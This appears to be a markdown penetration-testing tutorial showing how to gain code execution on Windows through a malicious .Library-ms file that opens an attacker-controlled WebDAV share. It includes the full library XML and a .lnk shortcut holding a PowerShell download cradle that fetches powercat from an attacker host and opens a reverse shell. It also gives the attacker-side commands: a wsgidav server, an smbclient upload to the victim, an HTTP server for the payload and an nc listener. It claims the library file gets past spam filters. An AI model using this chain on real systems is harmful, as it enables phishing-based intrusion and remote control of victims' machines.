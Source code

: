 # Obtaining Code Execution via Windows Library Files


Windows library files are virtual containers for user content.

They connect users with data stored in remote locations like web services or shares.

These files have a `.Library-ms` file extension and can be executed by double-clicking them in Windows Explorer.




## Two-stage client-side attack



1.
In the first stage, we'll use Windows library files to gain a foothold on the target system and set up the second stage.

First, we'll create a Windows library file connecting to a WebDAV share we'll set up. 

The victim receives a `.Library-ms` file, perhaps via email. When they double-click the file, it will appear as a regular directory in Windows Explorer.

The difference between serving the file like this vs. via an Apache web server is that is bypass the filters. Spam filters and security technologies will pass Windows library files directly to the user. When they double-click the file, Windows Explorer displays the contents of the remote location as if it were a local directory.


Create `config.Library-ms`:

Library files consist of three parts:
- General library information
- Library properties
- Library locations

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://[WEBDAV SHARE URL]</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```





2.
In the second stage, we'll use the foothold to provide an executable file that will start a reverse shell when double-clicked.


In the WebDAV directory, we'll provide a payload in the form of a `.lnk` shortcut file for the second stage to execute a PowerShell reverse shell. We must convince the user to double-click our `.lnk` payload file to execute it.


Create the shortcut file:
The goal is to start a reverse shell by putting the `.lnk` shortcut file on the WebDAV share for the victim to execute.


Right-click on the desktop and click on `New` > `Shortcut`. In the Create Shortcut window, we can enter a path to a program along with arguments, which will be pointed to by the shortcut. Point the shortcut to PowerShell and use another download cradle to load PowerCat from the Kali machine and start a reverse shell.

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://[ATTACKER MACHINE]:8000/powercat.ps1'); powercat -c [ATTACKER MACHINE] -p 4444 -e powershell"
```


Then transfer the resulting shortcut file to our Kali machine into the WebDAV directory.



3.
On ATTACKER MACHINE


3.a.
```
mkdir /home/[USERNAME]/webdav

/home/[USERNAME]/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/[USERNAME]/webdav/

cd /home/[USERNAME]/webdav

smbclient //[VICTIM]/share -c 'put config.Library-ms'

```

3.b.
```
# on a directory other than de WebDAV!!!
cp powercat.ps1 .
python3 -m http.server 8000
```


3.c.
```
# Listen to powercat!
nc -nvlp 4444
```





